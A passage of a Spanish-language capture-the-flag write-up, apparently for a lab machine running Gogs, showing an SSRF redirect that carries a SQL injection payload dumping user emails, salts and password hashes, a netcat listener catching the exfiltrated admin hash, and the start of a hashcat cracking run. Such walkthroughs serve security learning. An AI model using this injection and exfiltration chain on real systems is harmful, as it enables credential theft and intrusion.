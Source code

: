```null
<?php
   head("Location: http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,(select/**/email||':'||salt||':'||passwd/**/from/**/user),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--/**/- ");
?>
```
Así que con netcat me pongo en escucha por un puerto y recibo la data

```null
nc -nlvp 8000
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::8000
Ncat: Listening on 0.0.0.0:8000
Ncat: Connection from 10.10.11.176.
Ncat: Connection from 10.10.11.176:39868.
POST / HTTP/1.1
Host: 10.10.16.34:8000
Accept: */*
Content-type: application/json
Content-Length: 983

{"webhookUrl":"http:\/\/10.10.16.34:8000","monitoredUrl":"http:\/\/10.10.16.34","health":"up","body":"{\"data\":[{\"username\":\"susanne\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/c11d48f16f254e918744183ef7b89fce\"},{\"username\":\"admin@gogs.local:sO3XIbeW14:66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37\",\"avatar\":\"\/\/1.gravatar.com\/avatar\/15\"}],\"ok\":true}","message":"HTTP\/1.0 302 Found","headers":{"Host":"10.10.16.34","Date":"Tue, 10 Jan 2023 15:28:11 GMT","Connection":"close","X-Powered-By":"PHP\/8.1.12","Location":"http:\/\/127.0.0.1:3000\/api\/v1\/users\/search?q=')\/**\/union\/**\/all\/**\/select\/**\/1,2,(select\/**\/email||':'||salt||':'||passwd\/**\/from\/**\/user),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--\/**\/-","Content-type":"text\/html; charset=UTF-8","Content-Type":"application\/json; charset=UTF-8","Set-Cookie":"_csrf=; Path=\/; Max-Age=0","Content-Length":"293"}}
```

Adaptando el hash de admin obtenido al formato adecuado:

```null
sha256:10000:c08zWEliZVcxNA:ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=
```

Rompiéndolo con hashcat

```null
hashcat hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 3.0+debian  Linux, None+Asserts, RELOC, LLVM 13.0.1, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-10750H CPU @ 2.60GHz, 3498/7060 MB (1024 MB allocatable), 4MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

10900 | PBKDF2-HMAC-SHA256 | Generic KDF

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
```